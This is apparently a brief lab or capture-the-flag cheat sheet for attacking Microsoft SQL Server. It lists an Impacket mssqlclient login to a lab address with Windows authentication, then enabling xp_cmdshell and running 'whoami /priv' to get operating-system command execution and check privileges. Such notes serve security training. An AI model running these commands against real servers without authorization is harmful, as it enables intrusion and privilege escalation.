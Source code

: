 # sql

## Impacket

```
impacket-mssqlclient sql_dev@10.129.43.43 -windows-auth
```

## xp\_cmdshell

```
enable_xp_cmdshell
```

```
xp_cmdshell whoami /priv
```
